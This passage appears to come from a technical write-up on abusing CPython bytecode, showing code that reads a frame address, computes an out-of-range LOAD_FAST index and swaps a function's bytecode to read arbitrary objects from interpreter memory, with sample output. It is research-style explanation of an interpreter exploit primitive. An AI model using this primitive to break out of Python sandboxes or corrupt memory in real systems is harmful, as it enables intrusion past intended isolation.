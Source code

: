 This means we can simply get the frame address, calculate the index we need outside of the frame, then replace the bytecode of the frame with the actual exploit `LOAD_FAST <index>`. Which is so much easier!

To test this we'll try to access any `PyObject` we want in memory. However, do note that `_frame.f_localsplus` has type `PyObject **`, which means that we want the memory we index into to be be a pointer to a `PyObject`. We can do this by creating a `PyBytesObject` to store the address of the `PyObject` we wanna access, and make `LOAD_FAST` access the data field (`PyBytesObject.ob_sval`) of `PyBytesObject`:

```python
# Arbituary Object
arb_object = "Hello! ^-^"

# PyBytesObject that contains the address of `object`
PyBytesObject_arb_object_addr = id(arb_object).to_bytes(8, 'little')

# Offset of PyBytesObject.ob_sval
PyBytesObject_ob_sval_offset = 0x20
# Address to data of `object_addr_PyBytesObject`, 
# which is equivalent to `&(&object)`
arb_object_ptr_ptr = id(PyBytesObject_arb_object_addr) + PyBytesObject_ob_sval_offset
```

We can then calculate the `idx` for `LOAD_CONST <idx>` to access `object_ptr_ptr`:

```python
# Runs `return id(sys._getframe())`
bytecode1 = b"".join([
    # Get address of its frame and return
    inst('LOAD_CONST', 0), # Load id
    inst('LOAD_CONST', 1), # Load sys._getframe
    inst('CALL_FUNCTION', 0),
    inst('CALL_FUNCTION', 1),
    inst('RETURN_VALUE')
])

# Returns *(fastlocals[idx])
bytecode2 = lambda idx: b"".join([
    inst('LOAD_FAST', idx),
    inst('RETURN_VALUE')
])

# Get frame address by loading bytecode1
assign_bytecode(bytecode1)
print("Frame1 Address:", hex(frame_addr := g()))

# Offset of _frame.f_localsplus
_frame_f_localsplus_offset = 0x68
# Calculate idx
# r14+rdx*8+68h --> arb_object_ptr_ptr = 
#   frame_addr + idx*8 + _frame_f_localsplus_offset
idx = (arb_object_ptr_ptr - _frame_f_localsplus_offset - frame_addr)//8
print("idx:", hex(idx))
assert 0 <= idx < (1<<32), "idx out of range!"

# Replace the bytecode of g to return *(fastlocals[idx])
assign_bytecode(bytecode2(idx))

# Attempt to return `arb_object`
print("arb_object:", g())

# Output
# > Frame1 Address: 0x1eb158945f0
# > idx: 0x640db
# > arb_object: Hello! ^-^
```